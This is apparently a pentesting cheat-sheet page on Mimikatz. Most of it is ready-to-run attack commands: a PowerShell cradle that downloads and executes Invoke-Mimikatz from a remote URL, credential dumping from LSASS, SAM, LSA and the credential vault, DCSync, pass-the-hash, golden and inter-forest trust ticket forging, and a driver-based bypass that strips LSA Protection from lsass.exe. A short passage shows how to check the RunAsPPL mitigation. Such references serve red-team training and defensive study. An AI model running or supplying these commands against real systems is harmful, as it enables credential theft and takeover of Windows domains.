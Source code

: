 # Mimikatz

**URL:** [https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module\_source/credentials/Invoke-Mimikatz.ps1)

### Dump Credentials

```bash
# Download and execute in cradle
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
 
 #Dump creds from memory
Invoke-Mimikatz -DumpCreds

# DCSync Attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump local passwords
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

# Dump Credential Vault
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'

# Dump credentials on remote systems
Invoke-Mimikatz -DumpCreds -ComputerName @("WS01","WS02")
```

### Dump Domain Credentials

```bash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

### Spawn PowerShell (with compromised NTLM hash)

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:DomainAdmin /domain:Security.local /ntlm:b38ff50264b7458734d82c69794a4d8 /run:powershell.exe"'
```

### Forge Inter-domain trust ticket

```powershell
# Obtain trust key between current domain and external domain
Invoke-Mimikatz -Command '"lsadump::trust /patch"'

# An inter-forest TGT can be forged
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:Security.local /sid:S-1-5-21-1874506000-3219952063-538504511 /rc4:815720462a1b48256f16740b70356b7f /service:krbtgt /target:Vault.local /ticket:C:\AD\trust_forest_tkt.kirbi"'
```

### Over pass the hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:Security.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

## Protection Bypass

The below image represents an attempt to access the lsass.exe process and extract clear text passwords and run a skeleton key attack. As we can see this has not been successful since applying the registry key change mentioned in the mitigation section for LSA Protection.

![](<../../.gitbook/assets/image (1988).png>)

We can check if the LSA Protection RunAsPPL key exists by querying the registry to confirm the LSA protection is in place.

```bash
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "RunAsPPL"
# Value 0x1 means LSA Protection is enabled
```

This can be bypassed by utilizing the `mimidrv.sys` driver file which is included as a separate file with mimikatz.

{% hint style="info" %}
The mimidrv.sys driver file needs to exists in the same directory as mimikatz.exe.
{% endhint %}

The driver can be loaded by running the command `!+` in `Mimikatz`. After doing so the following command can be execute to protect the `mimikatz.exe` process.

```bash
!processProtect /process:mimikatz.exe
```

The same command with the `/remove` flag can be used to strip the process protection from a process such as `lsass.exe`

```bash
!processprotect /process:lsass.exe /remove
```

From here we should be free to perform actions against LSASS and dump credentials from it.

```
mimikatz.exe sekurlsa::logonpasswords
```

